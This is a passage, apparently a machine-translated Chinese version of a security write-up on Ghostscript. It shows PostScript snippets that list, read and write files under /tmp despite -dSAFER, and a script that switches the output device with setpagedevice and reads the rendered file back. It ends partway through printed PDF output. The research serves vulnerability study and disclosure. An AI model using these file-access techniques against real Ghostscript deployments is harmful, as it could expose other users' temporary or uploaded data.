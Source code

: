 ```
/MyVariable (Hello world!) def
MyVariable = % prints "Hello world!"
```  
  
  
名称也可以指代过程。在本文中，我们主要将其CamelCase用于变量和snake_case用户定义的过程。  
  
完全可访问的事实/tmp/非常有趣，因为这意味着即使在沙盒环境中，Postscript 程序也可以列出、读取和写入以下任何内容/tmp/：  
  
```
% List all files under /tmp/
(/tmp/*) { = } 1024 string filenameforall

% Read and print contents of /tmp/foobar
(/tmp/foobar) (r) file 1024 string readstring pop =

% Write to a (new) file
(/tmp/newfile) (w) file dup (Hello world!) writestring closefile
```  
  
  
在 Ghostscript 的某些集成用法中，这可能已经很危险了，因为临时的敏感数据或配置可能会存储在其中/tmp/。或者其他人上传的内容可能会出现在那里。  
  
从攻击者的角度来看，当读写文件的能力与更改输出设备及其设置的能力相结合时，就变得更加有趣了。非沙盒setpagedevice操作员会收到一个包含设备参数的字典，包括设备名称本身。这些相当于您经常在命令行上指定的字段，包括输出文件路径。因此，可以使用任意设备呈现页面并读回生成的输出文件，所有这些都在同一次执行中完成，与最初设置的设备参数无关。  
  
```
% simple_stroke.ps

% Change the current output file and page device (e.g., pdfwrite)
<<
  /OutputFile (/tmp/foobar)
  /OutputDevice /pdfwrite
>> 
setpagedevice

% Some minimal graphical content (a single diagonal stroke)
newpath
100 600 moveto
200 400 lineto
5 setlinewidth
stroke

% Produce a page
showpage

% Read back the contents of the output file
(/tmp/foobar) (r) file 8000 string readstring pop
print
```  
  
  
调用 showpage 后，设备已写出与页面内容对应的数据。因此，我们可以立即读回该数据，在本例中，使用 print 将其打印到 stdout：  
  
```
$ ghostscript -q -dSAFER -dBATCH -dNODISPLAY simple_stroke.ps
%PDF-1.7
%
%%Invocation: ghostscript -q -dSAFER -dBATCH -dNODISPLAY ?
5 0 obj
<</Length 6 0 R/Filter /FlateDecode>>
stream
x+T03T0A(˥d^ejPeeeh```"r@

e
```  
  